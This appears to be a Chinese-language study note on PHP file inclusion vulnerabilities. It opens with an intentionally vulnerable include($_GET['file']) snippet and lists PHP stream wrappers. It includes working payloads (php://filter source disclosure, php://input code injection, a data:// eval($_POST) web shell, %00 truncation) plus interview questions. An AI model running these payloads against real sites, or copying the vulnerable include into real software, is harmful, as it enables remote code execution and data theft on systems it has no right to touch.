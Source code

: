 # 文件包含

## 语句基础

```php
<?php
    header("Content-Type:text/html;charset=utf-8");
	$file = $_GET['file'];
	if(isset($file)){
        include($file);
    }
	else{
        show_source(__file__);
    }
?>
```



文件包含漏洞会把文本格式的东西或者其他东西都当作php代码执行

有文件夹区分用好../

做测试时通常先用

```php
<?php
phpinfo();
?>
```

再用木马。

### 1.远程文件包含

```
filename = http://192.168.1.98.8011/abc.txt
```

php.ini中，如果allow_url_include 是on状态，是支持远程文件包含的

自己服务器上有个自己的木马，可以让别人直接include

### 2.本地文件包含

如果尝试远程文件包含无果，则使用本地文件包含

伪协议

file:// 访问本地文件系统

http:// 访问网站

ftp:// 访问ftp服务器

php:// 访问输入输出流

zlib:// 访问压缩流

data:// 访问数据流

phar:// 访问php归档

rar:// 访问rar文件

ogg:// 访问音频

expect:// 交互式流



如果匹配file开头的东西

?page=file:///[一句话木马的地址]



### 三种常用伪协议（需要全部背下）

第一种 填写要求较严格，连空格都须注意，不能使用ph*

```php
?page=php://filter/read=convert.base64-encode/resource=[目标文件]
```

第二种   可以使用ph* 与ph？

```php
?page=php://input
```

```
post进php代码即可<?php phpinfo(); ?>
```

第三种   可以使用ph* 与ph？

```php
?page=data://text/plain,<?php phpinfo()?>
      data://text/plain,<?php eval($_POST["cmd"];?>
?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
?file=data://text/plain;base64,payload      #需要对payload进行base64,<?php *** ?>
```



### 3.面试问题

1.?page=file:///c:/和?page=file://c:/一样

2.当php<=5.2时进行测试可以使用%00截断

?php=file://c:/xxx.php%00.txt

3.伪协议是否开启-php.ini

allow_url_fopen = on

allow_url_include = on



linux中配置文件为 /etc/php.ini



4.file://在双off的情况下也可以正常使用



5.php://使用条件

1.不需要开启allow_url_fopen

2.php://input等需要打开allow_url_include
